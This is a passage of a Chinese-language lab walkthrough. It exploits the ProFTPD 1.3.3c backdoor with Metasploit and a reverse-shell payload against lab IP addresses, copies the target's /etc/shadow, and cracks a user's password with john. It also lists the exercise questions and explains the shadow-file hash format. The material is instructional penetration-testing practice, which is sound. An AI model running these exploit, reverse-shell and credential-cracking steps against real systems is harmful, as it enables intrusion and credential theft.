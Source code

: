 ```

   Id  Name
   --  ----
   0   Automatic
           
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit 

[*] Started reverse TCP double handler on 192.168.231.129:4444 
[*] 192.168.231.136:21 - Sending Backdoor Command

```

由于题目问的还有用户：`marlinspike`的密码，所以还需要对其密码进行破解

```
1. How many ports are open on the vulnerable virtual machine?
2. Which service is exploitable (include version number)?
3. What Metasploit module can be used for the exploit?
4. What is the hash algorithm for user marlinspike?
5. What is the password of user marlinspike?
```

**/etc/shadow**文件介绍

```
test2:$6$C/vGzhVe$aKK6QGdhzTmYyxp8.E68gCBkPhlWQ4W7/OpCFQYV.qsCtKaV00bToWh286yy73jedg6i0qSlZkZqQy.wmiUdj0:17470:0:99999:7:::

用户名：test2
加密后的密码：$6$C/vGzhVe$aKK6QGdhzTmYyxp8.E68gCBkPhlWQ4W7/OpCFQYV.qsCtKaV00bToWh286yy73jedg6i0qSlZkZqQy.wmiUdj0
上次修改密码的时间(从1970.1.1开始的总天数为17470)
两次修改密码间隔：没有限制
两次修改密码间隔最多的天数：没有限制
提前7天警告用户密码将过期
该用户永久可用

$id$salt$encrypted
id表示加密算法，1代表MD5，5代表SHA-256，6代表SHA-512 salt表示密码学中的Salt,系统随机生成 encrypted表示密码的hash
```

## 密码破解

将靶机上的`/etc/shadow`文件拷贝到kali，使用自带的：`john`工具

```
┌──(root㉿pinginglab)-[/home/pinginglab]
└─# john --show /home/pinginglab/2023/shadow 
marlinspike:marlinspike:17484:0:99999:7:::

1 password hash cracked, 0 left
```
